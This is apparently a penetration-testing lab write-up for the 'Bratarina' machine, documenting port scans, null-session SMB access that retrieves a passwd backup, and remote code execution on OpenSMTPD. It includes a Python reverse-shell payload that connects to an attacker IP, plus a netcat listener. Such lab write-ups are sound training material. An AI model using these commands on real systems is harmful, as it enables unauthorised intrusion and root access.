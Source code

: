 ```yaml
---
description: 12/1/2022
---
```


# Bratarina

## Information Gathering

Scanned all TCP ports:

```
PORT    STATE  SERVICE     VERSION
22/tcp  open   ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dbdd2cea2f85c589bcfce9a338f0d750 (RSA)
|   256 e3b765c2a78e4529bb62ec301aebed6d (ECDSA)
|_  256 d55b795bce48d85746db594fcd455def (ED25519)
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.175], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info
53/tcp  closed domain
80/tcp  open   http        nginx 1.14.0 (Ubuntu)
|_http-title:         Page not found - FlaskBB        
|_http-server-header: nginx/1.14.0 (Ubuntu)
445/tcp open   netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: COFFEECORP)
Service Info: Host: bratarina; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 1h40m00s, deviation: 2h53m14s, median: 0s
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-12-01T23:59:59
|_  start_date: N/A
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: bratarina
|   NetBIOS computer name: BRATARINA\x00
|   Domain name: \x00
|   FQDN: bratarina
|_  System time: 2022-12-01T19:00:01-05:00
```

Enumerated UDP ports:

```
```

Notes:

* 80/HTTP - <mark style="color:yellow;">nginx 1.14.0</mark>
  * <mark style="color:yellow;">Lots of broken links and other functionality</mark>
  * <mark style="color:yellow;">Viewed source code</mark>
* 25/SMTP <mark style="color:yellow;">OpenSMTPD 2.0.0</mark>
  * <mark style="color:yellow;">Searchsploit returns numerous exploits</mark>
* 445/SMB <mark style="color:yellow;">Samba 4.7.6</mark>
  * <mark style="color:yellow;">Enum4linux null shares</mark>

## Enumeration

### Port 80 - HTTP (nginx 1.14.0)

Dirsearch:

```
```

### Port 445 - Samba

Enum4Linux:

```
enum4linux 192.168.175.71
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption><p>backups share</p></figcaption></figure>

smbclient (Null authentication)

```
smbclient '\\\\192.168.175.71\\backups'
Password:(press enter)
smb: \>get passwd.bak
```

* We see passwd.bak
* It is a backup of /etc/passwd

passwd.bak:

<figure><img src="../../../.gitbook/assets/image (11) (5).png" alt=""><figcaption><p>Contents of /etc/passwd backup</p></figcaption></figure>

## Exploitation

### OpenSMTPD 6.6.1 - Remote Code Execution

{% embed url="https://www.exploit-db.com/exploits/47984" %}
PoC
{% endembed %}

Syntax for Exploit:

{% code overflow="wrap" %}
```
python3 47984 192.168.175.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.175\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```
{% endcode %}

Nc Listener:

```
sudo nc -lnvp 80
```

## Privilege Escalation

None, landed as root

## Proofs

<figure><img src="../../../.gitbook/assets/image (1) (11) (1).png" alt=""><figcaption><p>Proof.txt</p></figcaption></figure>
